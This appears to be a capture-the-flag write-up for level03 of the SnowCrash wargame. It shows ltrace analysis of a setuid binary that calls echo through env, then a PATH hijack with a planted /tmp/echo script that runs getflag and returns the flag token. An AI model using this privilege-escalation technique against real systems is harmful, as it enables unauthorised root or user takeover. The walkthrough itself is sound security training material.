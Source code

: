 # Level 03

- Once logged in, and check the file in home dir., the `level03` file is located

```
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level03@localhost's password:

level03@SnowCrash:~$
level03@SnowCrash:~$ ls
level03
```

When executing the file:
```
level03@SnowCrash:~$ ./level03
Exploit me
```

## Checking the file

- check `file` command to use type of the file

```
level03@SnowCrash:~$ file ./level03
./level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

- using `ltrace`

```
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid() = 2003
geteuid() = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 0
+++ exited (status 0) +++
```
from the line `system("/usr/bin/env echo Exploit me"Exploit me`, the echo is executed from the location within the env variable.

What if I change the env variable to execute the command `echo`? furthermore, what if the script for `echo` contains the execution of the `getflag`?
```
level03@SnowCrash:~$ vi /tmp/echo
#!/bin/bash
/bin/getflag
level03@SnowCrash:~$ chmod +x /tmp/echo
# level03@SnowCrash:~$ PATH="/tmp:$PATH" ./level03
level03@SnowCrash:~$ export PATH="/tmp:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
